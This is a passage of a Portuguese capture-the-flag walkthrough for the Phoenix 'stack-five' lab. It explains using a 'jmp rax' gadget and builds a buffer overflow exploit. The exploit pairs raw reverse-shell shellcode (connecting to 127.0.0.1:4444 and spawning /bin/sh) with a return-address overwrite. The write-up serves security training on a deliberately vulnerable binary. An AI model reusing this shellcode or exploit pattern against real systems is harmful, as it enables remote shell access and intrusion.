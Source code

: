 Ao enves de colocar o endereço do buffer diretamente no RIP, vamos achar algo que aponte para ele: um `jmp esp` por exemplo

E o beneficio é que, por estarmos pulando para uma parte estatica, e usando-a para redirecionar para o buffer, não corremos o risco do buffer mudar de endereço!

Isso quer dizer que não precisamos mais do NOP slide :D 

Essa é uma tecnica chamada programação ROP, que sera discutida em tutoriais futuros :D  Mas o que você precisa saber por enquanto é que cada um desses `jmps` é chamado de **gadget**

Gadgets são instruções em outras partes do programa, que são reaproveitadas por nos. Geralmente executar algo e pular para outro gadget!

Para achar esse jmp que nos ajudaria, podemos usar uma ferramenta chamda `ROPgadget`
```
user@phoenix-amd64:/opt/phoenix/amd64$ ROPgadget --binary stack-five --only "jmp"
Gadgets information
============================================================
0x0000000000400481 : jmp rax

Unique gadgets found: 1
```

Isso quer dizer que, ao pular para esse endereço, vamos executar `jmp rax` e acabar pulando para rax! e para onde rax aponta?

Colocando um break antes do ret de start_level, podemos ver que antes de retornar, rax aponta para o mesmo endereço que rsp, e convenientemente o incio do nosso buffer
![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/stack%20five/gef_rax.png)

Então vamos modificar o exploit :D
```
Dica: Shellcode+AAAAA+ret, Little Endian, 136 bytes ate RIP

Se você não quiser ver a solução enquanto tenta!
.
.
.
.
.
.
.
.
.
.
.
```


```
buf =  ""

# shellcode
buf += "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += "\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += "\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += "\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += "\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += "\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

# Filler
buf += 'A' * (136 - len(buf))

# ret
buf += '\x81\x04\x40'

open("/tmp/exploit","wb").write(buf)
```